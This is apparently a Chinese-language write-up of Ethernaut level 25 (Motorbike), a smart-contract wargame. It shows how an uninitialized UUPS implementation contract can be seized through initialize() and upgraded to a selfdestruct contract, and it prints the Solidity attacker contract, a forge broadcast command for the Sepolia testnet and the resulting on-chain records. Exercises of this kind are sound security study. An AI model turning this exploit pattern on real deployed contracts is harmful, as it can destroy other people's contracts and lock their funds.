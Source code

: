 # Level 25

[The Ethernaut level 25](https://ethernaut.openzeppelin.com/level/25)

这一关的目的是对实现 `Engine` 合约调用 `selfdestruct()`，使 `Engine` 合约无法使用。

仔细阅读合约，这是一个使用 `UUPS` 的模式的代理合约。`Motorbike` 是代理合约，而 `Engine` 是实现合约。

`Engine` 合约代码中没有定义 `selfdestruct()`。那么将如何调用它呢？可以尝试升级实现合约，使其指向自己部署的攻击者合约。

为了升级逻辑，我们需要确保我们是 `upgrader`。

这里需要注意的是，在这个实现中，`initialize()` 函数应该由代理合约调用。但它是通过 `delegatecall()` 来实现的。这意味着是在代理合约的上下文中进行的，而不是在实现中。

在实现合约的上下文中，这尚未被调用。因此，如果直接调用这个函数，调用者（攻击合约）将成为升级者。

一旦我们成为了upgrader，我们可以直接调用 `upgradeToAndCall()`，并把实现合约更改为自己部署的带有 `selfdestruct` 的攻击合约

攻击者合约：
```
contract Attacker {
    Motorbike motorbike;
    Engine engine;
    Destructive destructive;

    constructor(address motorbikeAddr, address engineAddr) public {
        motorbike = Motorbike(payable(motorbikeAddr));
        engine = Engine(engineAddr);
        destructive = new Destructive();
    }

    function attack() external {
        engine.initialize();
        bytes memory encodedData = abi.encodeWithSignature("killed()");
        engine.upgradeToAndCall(address(destructive), encodedData);
    }
}
```

执行脚本：
```
forge script script/Level25.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

完整代码见：[这里](../../ethernaut/script/Level25.s.sol)


链上记录：
- [level(`Motorbike`)](https://sepolia.etherscan.io/address/0x082198127b7d7adf8D3f035599F15D78C1C0f665)
- [Attacker](https://sepolia.etherscan.io/address/0x20f8B2087Ba547c69c78B02A9251bFc543FdA9fe)
- [attack 交易](https://sepolia.etherscan.io/tx/0x262064fcd168e0afc9fb60166a271747ffc37204f38b103140564dba72a1e419)
- [新 Engine 合约（带自毁功能）](https://sepolia.etherscan.io/address/0x04611f42fbab6cd8028a498e9c825e00bd556dd0)